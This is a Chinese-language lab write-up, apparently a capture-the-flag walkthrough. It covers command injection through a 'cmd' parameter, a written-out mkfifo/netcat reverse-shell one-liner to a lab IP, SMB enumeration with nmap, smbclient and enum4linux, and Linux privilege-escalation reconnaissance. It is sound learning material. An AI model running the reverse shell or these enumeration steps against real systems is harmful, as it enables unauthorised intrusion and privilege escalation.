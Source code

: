 
使用cmd作为参数传导 我们随便试一下ls 发现能成 反弹shell试试看
![image.png](https://s2.loli.net/2025/04/30/mfLolbsCA7uiXw6.png)


```
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | sh -i 2>&1 | nc  10.10.250.106 443 >/tmp/f

nc -lvnp 8888
```

在bp进行url的转码  输入之后就能反弹成功了

## smb的信息收集
用nmap脚本枚举和smbclient，smbmap来枚举smb服务的信息
```
smbclient -L 

nmap --script smb-enum-shares --script-args smbuser=user,smbpass=pass 61.139.2.163


```
![image.png](https://s2.loli.net/2025/04/30/HouYdOxcfX7AB3V.png)


![image.png](https://s2.loli.net/2025/04/30/8tXVxsONcyIzqJf.png)

```
enum4linux -a 枚举出了所有的用户
```

![image.png](https://s2.loli.net/2025/04/30/OXfCoVGLqU83MrA.png)


## 进去之后的信息收集
我们先把基本需要的信息先查看一下 据说有十二种提权方法 得学习学习

```
cat /etc/passwd

find / -perm -u=s -type f 2>/dev/null
```

发现有mysql账户 还有八个用户

![image.png](https://s2.loli.net/2025/04/30/U7urde82PntGsjA.png)

找到两个在home目录下的脚本 从这两个下手

![image.png](https://s2.loli.net/2025/04/30/RynINW9BugmiFqh.png)

### 1. user6 shell提权
在目录中找到shell 运行就能获得root权限
![image.png](https://s2.loli.net/2025/04/30/6m7aHEIC4Pls8Zj.png)
